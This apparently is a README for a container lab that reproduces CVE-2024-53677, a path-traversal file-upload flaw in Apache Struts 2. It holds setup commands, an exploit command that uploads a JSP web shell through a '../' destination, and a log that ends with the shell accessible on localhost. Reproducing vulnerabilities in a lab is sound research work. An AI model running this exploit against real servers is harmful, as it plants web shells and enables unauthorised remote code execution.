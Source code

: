  CVE-2024-53677 - Apache Struts 2 Remote Code Execution Vulnerability (RCE) Reproduction Environment

This repository provides a container-based environment to reproduce the CVE-2024-53677 vulnerability in Apache Struts 2. This vulnerability involves path traversal and allows for arbitrary code execution (RCE) through the file upload functionality in Struts 2.

## Setup Instructions

The environment can be built and run using Podman. Follow these steps to set up the application:

```sh[
git clone https://github.com/seanrickerd/CVE-2024-53677.git
cd CVE-2024-53677 
podman build --ulimit nofile=122880:122880 -m 3G -t cve-2024-53677 .
podman run -d -p 8080:8080 --ulimit nofile=122880:122880 -m 3G --rm -it --name cve-2024-53677 cve-2024-53677
```
Running the exploit: 

```sh
pip install -r requirements.txt
python S2-067.py -u http://localhost:8080 --upload_endpoint /upload.action --files newshell.jsp --destination ../newshell.jsp
```
There is an intermittent issue where the file will upload properly but will not be accessible. To work around this, you will need to add an extra . to the destination, then re-run the original command. 

```sh
$ python S2-067.py -u http://localhost:8080 --upload_endpoint /upload.action --files shell.jsp --destination ../shell.jsp
[INFO] Uploading files to http://localhost:8080/upload.action...
[SUCCESS] File newshell.jsp uploaded successfully: ../shell.jsp
[INFO] Verifying uploaded file: http://localhost:8080/shell.jsp
[INFO] File not accessible. HTTP Status: 404
$ python S2-067.py -u http://localhost:8080 --upload_endpoint /upload.action --files shell.jsp --destination .../shell.jsp
[INFO] Uploading files to http://localhost:8080/upload.action...
[SUCCESS] File newshell.jsp uploaded successfully: .../shell.jsp
[INFO] Verifying uploaded file: http://localhost:8080/.../shell.jsp
[INFO] File not accessible. HTTP Status: 404
$ python S2-067.py -u http://localhost:8080 --upload_endpoint /upload.action --files shell.jsp --destination ../shell.jsp
[INFO] Uploading files to http://localhost:8080/upload.action...
[SUCCESS] File newshell.jsp uploaded successfully: ../shell.jsp
[INFO] Verifying uploaded file: http://localhost:8080/shell.jsp
[ALERT] File uploaded and accessible: http://localhost:8080/shell.jsp
```
The shell will be accessible via a browser at http://localhost:8080/shell.jsp
